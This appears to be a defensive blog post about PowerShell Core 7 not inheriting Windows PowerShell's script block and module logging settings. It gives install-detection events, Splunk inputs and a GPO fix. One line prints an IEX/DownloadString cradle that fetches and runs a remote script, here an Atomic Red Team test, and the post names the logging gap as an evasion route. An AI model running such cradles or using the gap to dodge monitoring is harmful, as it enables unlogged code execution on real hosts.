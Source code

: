 ```yaml
---
title: "PowerShell Core Logging Observations" 
layout: post
---
```


In my [Active Directory lab]({% post_url 2020-04-11-active-directory-lab%}), I've got PowerShell Module Logging and Script Block Logging enabled. I used the [settings recommended by the Australian Signals Directorate][asd-guidance] when configuring the GPO. So I was surprised to find that after executing a download crade via PowerShell 7 there was nothing in the PowerShell logs to detect this activity, while running the exact same command in PowerShell 5.1 resulted in the command being logged, EventID 4104.

It turns out that PowerShell Core does not inherit the logging settings of built-in PowerShell. This could represent a possible gap in logging that an adversary can take advantage of by installing PowerShell Core and executing commands through it, rather than built-in PowerShell or cmd.exe.

### Download cradle I ran on both PowerShell Core and built-in PowerShell
```powershell
IEX (New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1086/payloads/test.ps1')
```

## What is PowerShell Core?
* Open-source, cross-platform version of PowerShell built on top of .NET Core.
* Not currently shipped with Windows, [must be installed][core-installinstructions].
* Does not replace built-in PowerShell, they run side-by-side.
* Per the [PowerShell Core 7 Dev Blog][ps-devblog], "we consider PowerShell 7 and beyond to be the one, true PowerShell going forward."

## PowerShell Core Installation Detections
During the installation of PowerShell Core 7, there were a few events logged that looked like good candidates to use for detection purposes:
* Two events for Sysmon, EventID 11:
    * TargetFilename: 'C:\Program Files\PowerShell\7\pwsh.dll'
    * TargetFilename: 'C:\Program Files\PowerShell\7\pwsh.exe'
* Command line entry in both WinEvent, EventID 4688,  and Sysmon, EventID 1, log:
    * CommandLine: '"C:\Program Files\PowerShell\7\pwsh.exe" -NoProfile -ExecutionPolicy Bypass -File "C:\Program Files\PowerShell\7\RegisterManifest.ps1"' 

## Enable PowerShell Core Logging to Splunk
1. Add the following stanza to `$SPLUNK_HOME/etc/deployment-apps/Splunk_TA_windows/local/inputs.conf` on the deployment server:
```
[WinEventLog://PowerShellCore/Operational]
disabled = 0
renderXml = 0
```
2. Reload deployment server
3. Restart SplunkForwarder service on applicable clients

## Default PowerShell Core WinEvent Logs
These are the default logs that were ingested into Splunk prior to configuring a GPO for PowerShell Core specific logging:

<p align="center">
  <img src="/assets/posts/2020-04-12-powershell-core-logging/core_log_pre_gpo.png">
</p>

## [Configure PowerShell Core Logging via GPO][gpo-guidance]
1. Obtain `PowerShellCoreExecutionPolicy.adml` and `PowerShellCoreExecutionPolicy.adml` by either:
    * Installing PowerShell 7 via [msi][core-release] on a host then retrieving the files from `C:\Program Files\PowerShell\7\`
        * or
    * Downloading the [zip][core-release] file and retrieving the files from the archive.
1. Add the files to the [AD Central Store][ad-centralstore]:
2. In Group Policy Management Console: Computer Configuration -> Administrative Templates -> Powershell Core
    * Turn on Module Logging
    * Turn on PowerShell Script Block Logging

## Post-GPO PowerShell Core Logs
These are the logs that were ingested into Splunk after configuring GPO for PowerShell Core logging (not all, some filtered out for brevity):

<p align="center">
  <img src="/assets/posts/2020-04-12-powershell-core-logging/core_log_post_gpo.png">
</p>

## Conclusion
As PowerShell is used as one of the top Mitre ATT&CK techniques, [Red Canary 2020 Threat Detection Report][redcanary-report] and [FireEye M-Trends 2020 pdf page 20][fireeye-mtrends], I believe it would be prudent to configure detections for PowerShell Core being installed and leveraged - even if you're not currently using PowerShell Core in your environment - so that when it shows up, you will know.

[asd-guidance]:		        https://www.cyber.gov.au/publications/windows-event-logging-and-forwarding
[core-installinstructions]: https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-core-on-windows?view=powershell-7
[ps-devblog]:               https://devblogs.microsoft.com/powershell/announcing-PowerShell-7-0/
[gpo-guidance]: 	        https://docs.microsoft.com/en-us/powershell/scripting/whats-new/migrating-from-windows-powershell-51-to-powershell-7?view=powershell-7#group-policy-supported
[ad-centralstore]:	        https://support.microsoft.com/en-us/help/3087759/how-to-create-and-manage-the-central-store-for-group-policy-administra
[core-release]:		        https://github.com/PowerShell/PowerShell/releases
[redcanary-report]:         https://redcanary.com/threat-detection-report/techniques/
[fireeye-mtrends]:          https://content.fireeye.com/m-trends/rpt-m-trends-2020
